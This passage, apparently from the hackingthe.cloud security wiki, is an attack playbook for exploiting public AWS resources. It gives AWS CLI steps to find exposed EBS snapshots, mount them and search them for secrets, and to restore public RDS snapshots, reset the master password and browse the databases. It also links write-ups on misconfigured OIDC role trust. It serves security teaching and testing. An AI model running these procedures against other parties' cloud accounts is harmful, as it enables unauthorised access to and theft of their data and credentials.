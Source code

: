`region=region  # Search by AWS account ID aws ec2 describe-snapshots --owner-ids 123456789012  # Search by description aws ec2 describe-snapshots --filter "Name=description,Values=*hackingthe.cloud*"  # Create volume from snapshot # The availability zone must be the same as the instance we  # will create shortly in order to attach the new volume there aws ec2 create-volume --availability-zone $region'a' --snapshot-id snap-example1234567890  # Alternatively you can try to copy the Snapshot and # operate with ti from there # aws ec2 copy-snapshot --source-snapshot-id snap-example1234567890 --source-region $region  # Check if status is 'ok' # Volume id is from the 'create-volume' API call aws ec2 describe-volume-status --volume-id $volume_id  # Start a new EC2 instance in the same Availability Zone # The Image Id is for an Amazon Linux image and has # nothing to do with the public AMI from the previous section # Create a security group that allows all inbound traffic if # you don't already have one and use it here aws ec2 run-instances --security-group-ids sg-example1234567890 --instance-type t2.micro --placement AvailabilityZone=$region'a' --image-id ami-example1234567890  # Attach volume to your instance and specify as device # anything from /dev/sdf to /dev/sdp (you can use /dev/sdf) # --instance-id is from 'run-instances' API call aws ec2 attach-volume --volume-id $volume_id --instance-id $instance_id --device /dev/sdf  # Connect to the instance aws ec2-instance-connect ssh --os-user root --instance-id $instance_id # Mount the volume # lsblk # mount /dev/sdf1 /mnt # Search the volume for files and secrets   # Terminate the instance when you're done aws ec2 terminate-instances --instance-ids $instance_id  # Delete the volume created aws ec2 delete-volume --volume-id $volume_id`

### RDS Snapshots[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#rds-snapshots "Permanent link")
`# Depending on the engine of the target snapshot, you'll have to install # the tool for connecting to the RDS server # We'll use MySQL in this example   # Search based on AWS account id using jq # because there is no native way to do this # Copy the DBSnapshotIdentifier aws rds describe-db-snapshots --include-public | jq '.DBSnapshots[] | select(.DBSnapshotArn | contains("123456789012:"))'  # Restore Snapshot # Use the DBSnapshotIdentifier from above and create # a security group that allows all inbound traffic if # you don't already have one and use it here # $db_instance_identifier should be a new custom name for # the new db  aws rds restore-db-instance-from-db-snapshot --db-instance-identifier $db_instance_identifier \     --db-snapshot-identifier $db_snapshot_identifier \     --vpc-security-group-ids sg-example1234567890 --publicly-accessible --no-multi-az  # This will take around 5-15 minutes so you can run this # command to know when the database was restored # The DB Instance Identifier should be the same, but you # can get it from the output of the previous command aws rds wait db-instance-available --db-instance-identifier $db_instance_identifier  # Change login password # In the response you will also see the RDS # endpoint address. Copy that for connecting # to the instance. The username for login can # be found in the same response under "MasterUsername" aws rds modify-db-instance \     --db-instance-identifier $db_instance_identifier \     --master-user-password MyNewPassword123! \     --apply-immediately  # Connect to the database mysql -h $url_db -u $username --skip-ssl -p # show databases; # use $database; # show tables;  # Delete RDS instance aws rds delete-db-instance --db-instance-identifier $db_identifier --skip-final-snapshot`

### IAM Roles[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#iam-roles "Permanent link")
There are roles that can be assumed using various 3rd-party technologies if the role's trust policy is misconfigured.

Documented attacks on bad OIDC configurations: - [GitHub](https://medium.com/tinder/identifying-vulnerabilities-in-github-actions-aws-oidc-configurations-8067c400d5b8) - [Terraform Cloud](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess) - [GitLab](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/)

